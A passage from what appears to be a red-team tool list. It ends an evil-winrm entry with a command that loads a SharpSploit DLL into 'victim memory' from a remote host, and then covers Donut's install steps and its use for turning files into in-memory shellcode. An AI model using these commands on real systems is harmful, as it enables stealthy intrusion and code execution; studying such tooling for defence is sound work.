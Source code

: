 ```bash

# Load DLL library into victim memory
Dll-Loader -http http://10.10.10.10/SharpSploit.dll
```

Full usage documentation can be found [here](https://github.com/Hackplayers/evil-winrm#documentation).

![image](https://user-images.githubusercontent.com/100603074/210266192-ad53c125-7b3b-4a91-89c1-01c42cb21ef3.png)

*Image used from https://korbinian-spielvogel.de/posts/heist-writeup/*

### [🔙](#tool-list)[Donut](https://github.com/TheWover/donut/)

A tool for in-memory execution of VBScript, JScript, EXE, DLL files and dotNET assemblies. It can be used to load and run custom payloads on target systems without the need to drop files to disk.

**Install: (Windows)** 

```bash
git clone http://github.com/thewover/donut.git
```

To generate the loader template, dynamic library donut.dll, the static library donut.lib and the generator donut.exe. Start an x64 Microsoft Visual Studio Developer Command Prompt, change to the directory where you cloned the Donut repository and enter the following:

```bash
nmake -f Makefile.msvc
```

To do the same, except using MinGW-64 on Windows or Linux, change to the directory where you cloned the Donut repository and enter the following:

```bash
make -f Makefile.mingw
```

**Install: (Linux)** 

```bash
pip3 install donut-shellcode
```

**Usage:** 

```bash
# Creating shellcode from an XSL file that pops up a calculator.
shellcode = donut.create(file=r"C:\\Tools\\Source\\Repos\\donut\\calc.xsl")

# Creating shellcode from an unmanaged DLL. Invokes DLLMain.
shellcode = donut.create(file=r"C:\Tools\Source\Repos\donut\payload\test\hello.dll")
```

For full usage information, see the donut [GitHub Page](https://github.com/TheWover/donut/#4-usage).

See [a recent blog post](https://thewover.github.io/Bear-Claw/) from The Wover for more info.
